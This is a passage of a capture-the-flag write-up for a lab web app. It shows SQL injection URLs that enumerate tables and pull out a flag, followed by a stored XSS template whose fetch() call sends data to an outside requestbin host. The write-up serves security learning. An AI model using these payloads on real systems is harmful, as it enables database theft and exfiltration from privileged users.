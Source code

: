    * [http://web.kazet.cc:31339/stats/2022 AND 1=2 UNION SELECT table_name, 1 FROM information_schema.columns where table_name not in ('domain_constraints', 'domain_udt_usage', 'table_constraints', 'role_column_grants', 'sql_sizing', 'user_defined_types', 'view_routine_usage', 'key_column_usage', 'column_column_usage', 'routine_sequence_usage', 'foreign_tables', 'element_types', 'applicable_roles', 'view_column_usage') and table_name not like 'pg%'--](<http://web.kazet.cc:31339/stats/2022 AND 1=2 UNION SELECT table_name, 1 FROM information_schema.columns where table_name not in ('domain_constraints', 'domain_udt_usage', 'table_constraints', 'role_column_grants', 'sql_sizing', 'user_defined_types', 'view_routine_usage', 'key_column_usage', 'column_column_usage', 'routine_sequence_usage', 'foreign_tables', 'element_types', 'applicable_roles', 'view_column_usage') and table_name not like 'pg%'-->)
   * Output: `table_name = interesting_and_secret_information`
4. Find some interesting column
   * [http://web.kazet.cc:31339/stats/2022 AND 1=2 UNION SELECT column_name, 1 from information_schema.columns where table_name = 'interesting_and_secret_information'--](<http://web.kazet.cc:31339/stats/2022 AND 1=2 UNION SELECT column_name, 1 from information_schema.columns where table_name = 'interesting_and_secret_information'-->)
   * Output: `column_name = secret_text_for_example_a_flag`
5. Find the flag (or rather the part of it :)
   * [http://web.kazet.cc:31339/stats/2022 AND 1=2 UNION SELECT secret_text_for_example_a_flag, 1 FROM interesting_and_secret_information--](<http://web.kazet.cc:31339/stats/2022 AND 1=2 UNION SELECT secret_text_for_example_a_flag, 1 FROM interesting_and_secret_information-->)
   * Output: `FLAG{this_is_a_long_and_interesting_flag_9393265140f32ff7...`
6. Find the remaining part of the flag
   * [http://web.kazet.cc:31339/stats/2022 AND 1=2 UNION SELECT SUBSTRING(secret_text_for_example_a_flag, 58, 100), 1 FROM interesting_and_secret_information--](<http://web.kazet.cc:31339/stats/2022 AND 1=2 UNION SELECT SUBSTRING(secret_text_for_example_a_flag, 58, 100), 1 FROM interesting_and_secret_information-->)
   * Output: `fc9f3b5bc9c065b3e6fdc4f4}`

# Flag \#3 - FLAG{752e8db03d875cfec6bdf8305756f1bb}
## Vulnerability
Cross-site scripting ([XSS](https://portswigger.net/web-security/cross-site-scripting)). In this specific case it's JS injection.

## Approach
After logging in the application we are able to create and send an article - http://web.kazet.cc:31339/send_article. We can see that after sending the article, the content is being sent to the editor for the review. It may be an opportuninty to attack the editor (who probably has more priviliges than us). We are going to send some malicious JS script which will be injected into editor's HTML and then executed on his side.<br/> <br/>
But we need to somehow follow the results of the code that is executed by editor. Let's create a simple [requestbin](https://requestbin.com/) container where "editor" will be sending the results to. In my case the requestbin can be accessed at https://eozy3pwhxz589s.m.pipedream.net. <br/><br/>
The blueprint of our malicious script will look like this:
```
<script>
    // Do something as editor
    /* ... */

    // Store the results
    const data = { content: "Hello it's editor!!!" }; 

    // Send the results to our requestbin
    fetch('https://eozy3pwhxz589s.m.pipedream.net', {
        method: 'POST',
        headers: {
            'Content-Type': 'application/json',
        },
        body: JSON.stringify(data),
    });
</script>
```